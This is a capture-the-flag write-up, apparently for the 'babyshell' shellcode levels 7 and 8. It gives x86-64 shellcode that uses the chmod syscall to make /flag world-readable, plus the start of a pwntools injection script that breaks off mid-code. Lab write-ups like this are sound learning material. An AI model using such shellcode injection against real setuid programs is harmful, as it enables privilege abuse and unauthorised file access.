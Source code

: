 

<div alt="page-break" class="page-break"></div>

## Level 7

> **From the challenge description:**
> \- This challenge is about to close stdin, which means that it will be harder to pass in a stage-2 shellcode. You will need to figure an alternate solution (such as unpacking shellcode in memory) to get past complex filters.
> \- This challenge is about to close stderr, which means that you will not be able to get use file descriptor 2 for output.
> \- This challenge is about to close stdout, which means that you will not be able to get use file descriptor 1 for output.
>
> You will see no further output, and will need to figure out an alternate way of communicating data back to yourself.

Replace the shellcode variable in the script of **level1** with the code below:

```python
shellcode = '''
    mov rax, 90 
    lea rdi, [rip+flag]
    mov rsi, 0777
    syscall

    mov rax, 60
    syscall

flag:
    .asciz "/flag" 
'''
```

Run it with `python injection.py`. This shellcode will grant you acces to the flag, so you'll be able to see it with `cat /flag`

> The challenge disables stdin, stdout, and stderr, **preventing input and output** through standard file descriptors. However, this is not an issue because we have never used syscalls that rely on stdin or stdout (such as read or write). Instead, we have used the **chmod** syscall, which does not interact with standard input or output. Therefore, we can solve this challenge using the same approach as in the previous levels.

<div alt="page-break" class="page-break"></div>

## Level8

> **From the challenge description:**
> Reading 0x12 bytes from stdin. Removing write permissions from first 4096 bytes of shellcode.

**injection.py**

```python
from pwn import *
import subprocess

file = "/challenge/babyshell_level8"
context.update(arch="x86-64", encoding="latin")

shellcode = '''
    push 0x67616c66 /* "galf" */
    push rsp
    pop rdi

    push 0777
    pop rsi

```